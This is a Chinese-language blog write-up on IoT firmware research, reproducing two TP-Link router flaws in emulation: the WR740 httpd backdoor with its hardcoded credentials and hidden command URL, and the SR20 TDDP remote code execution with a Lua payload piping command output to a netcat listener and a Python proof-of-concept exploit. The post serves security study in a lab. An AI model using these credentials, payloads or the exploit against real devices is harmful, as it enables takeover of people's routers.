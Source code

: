 # IOT Security Research

A simple blog for IOT Security Research.
<!--more-->

## 前置知识
### 固件的获取
#### 直接从厂商官网或官方服务器下载
![](imgs/image-20241016135150887.png)

![](imgs/image-20241016135255333.png)


#### 使用BP或者UART串口进入设备的shell抓包获取下载地址
![](imgs/image-20241016135215581.png)

![](imgs/image-20241016135218312.png)


#### 使用固件烧写器或者编程器提取ROM中的固件

### 固件的处理
#### 解包
常用工具：binwalk、firmware-mod-kit、binaryanalysis-ng

#### 解密
1. 使用老版本未加密固件中的解密程序实现新版本加密固件的解密

2. 逆向分析低版本固件的解密逻辑实现对新版本固件的解密

## 漏洞复现
### TP-Link WR740 后门漏洞
首先获取固件，固件下载地址：https://github.com/dioos886/TP-LinkWR740

使用binwalk扫一下，可以直接看到Squashfs文件系统，使用-Me参数进行提取

![](imgs/image-20241016140120199.png)

> Tips：如果这里无法提取出文件系统，可能是没有正确安装sasquatch，直接根据Github中的步骤安装即可
> 
> sasquatch下载地址：https://github.com/devttys0/sasquatch.git

解包完成后，可以使用 firmwalker 进行敏感信息扫描

> firmwalker下载地址：https://github.com/craigz28/firmwalker.git
> 
> 使用方法：./firmwalker.sh squashfs-root的路径


![](imgs/image-20241016181231412.png)

多次出现httpd的字样，因此猜测是httpd起的服务

接下来逆向分析一下/usr/bin/httpd这个文件

通过搜索passwd跟踪到以下DebugResultRpmHtm这个函数，可以得到 用户名：osteam 密码：5up
![](imgs/image-20241016181821704.png)

再往上可以找到另外两个函数ArtRpmHtm和CmdRpmHtm
![](imgs/image-20241016182046585.png)

然后我们对固件进行模拟，我这里使用的是AttifyOS3.0中的 firmware-analysis-toolkit

![](imgs/image-20241017201034207.png)

模拟成功后我们直接访问 192.168.1.1 即可

![](imgs/image-20241017201209947.png)

使用默认密码 admin admin 登录

![](imgs/image-20241017201238654.png)

登录成功后直接访问 192.168.1.1/userRpmNatDebugRpm26525557/linux_cmdline.html

然后输入我们之前逆向得到的用户名密码：osteam 5up 即可实现 RCE

![](imgs/image-20241017201524213.png)

### TP-Link SR20 本地网络远程代码执行漏洞

固件下载链接：https://www.tp-link.com/us/support/download/sr20/#Firmware

选择 `SR20(US)_V1_180518` 下载，然后解压，直接使用 binwalk 提取固件即可

搭建 arm qemu 虚拟机环境

搭建环境前需要先获取以下三个文件，并置于统一目录中，下载链接：https://people.debian.org/~aurel32/qemu/armhf/

```bash
debian_wheezy_armhf_standard.qcow2 # qemu虚拟机的硬盘镜像文件，包含完整的 Debian Wheezy 操作系统（ARM 架构）
initrd.img-3.2.0-4-vexpress # 初始 RAM 文件系统镜像，用于在内核加载时提供临时文件系统和驱动
vmlinuz-3.2.0-4-vexpress # 压缩的 Linux 内核镜像文件，控制系统硬件和资源管理
```

```bash
sudo tunctl -t tap0 -u `whoami`  
# 为了与 QEMU 虚拟机通信，添加一个虚拟网卡，如果显示已经分配给一个用户，要先用以下命令启用
# sudo ip link set tap0 up

# 为添加的虚拟网卡配置 IP 地址
sudo ifconfig tap0 10.10.10.1/24 
# 根据配置启动虚拟机
qemu-system-arm \
    -M vexpress-a9 \                             # 使用 ARM 虚拟平台 vexpress-a9
    -kernel vmlinuz-3.2.0-4-vexpress \           # 指定内核镜像文件
    -initrd initrd.img-3.2.0-4-vexpress \        # 指定 initrd 初始 RAM 文件系统
    -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \  # 将 debian 磁盘镜像作为 SD 卡
    -append "root=/dev/mmcblk0p2 console=ttyAMA0" \ # 内核启动参数：设置根分区及控制台
    -net nic \                                   # 启用虚拟网络接口
    -net tap,ifname=tap0,script=no,downscript=no \ # 使用 tap0 进行网络桥接
    -nographic                                    # 不启动图形界面，重定向到终端
```

虚拟机成功运行后，使用 root root 默认密码登录系统，然后使用以下命令配置网卡，建立与宿主机的通讯
```bash
ifconfig eth0 10.10.10.2/24
```

![](imgs/image-20241025160447046.png)

建立好通讯后，用以下命令把固件中的文件系统传入虚拟机中并解压
```
tar -cjpf squashfs-root.tar.bz2 squashfs-root/
python -m http.server
wget http://10.10.10.1:8000/squashfs-root.tar.bz2
tar -xjpf squashfs-root.tar.bz2
```

然后需要在宿主机中安装TFTP服务
```bash
sudo apt install atftpd
```

编辑 `/etc/default/atftpd` 文件，`USE_INETD=true` 改为 `USE_INETD=false`

修改 `/srv/tftp` 为 `/tftpboot`

修改完成后用以下命令启动并查看aftpd服务
```bash
sudo systemctl start atftp
sudo systemctl status atftp
# 如果出现 atftpd: can't bind port :69/udp 报错
# 需要先用以下命令停用 inetutils-inetd 服务，然后再restart
sudo systemctl stop inetutils-inetd.service
```

下图是启动成功的界面
![](imgs/image-20241025162544581.png)

之后是漏洞复现的步骤
现在宿主机的`/tftpboot` 目录下创建下面两个文件

文件一：payload
```bash
function config_test(config)
  os.execute("id | nc 10.10.10.1 1337")
end
```
文件二：poc.py
```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

然后虚拟机运行tddp，宿主机开启监听并运行poc.py即可成功复现

![](imgs/image-20241025173411193.png)

![](imgs/image-20241025173312434.png)


但是我这里虚拟机中tddp的动态链接库有点问题，暂时卡在这里了

![](imgs/image-20241025172358445.png)

参考链接：https://paper.seebug.org/879/

---

> Author: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/848cf69/  

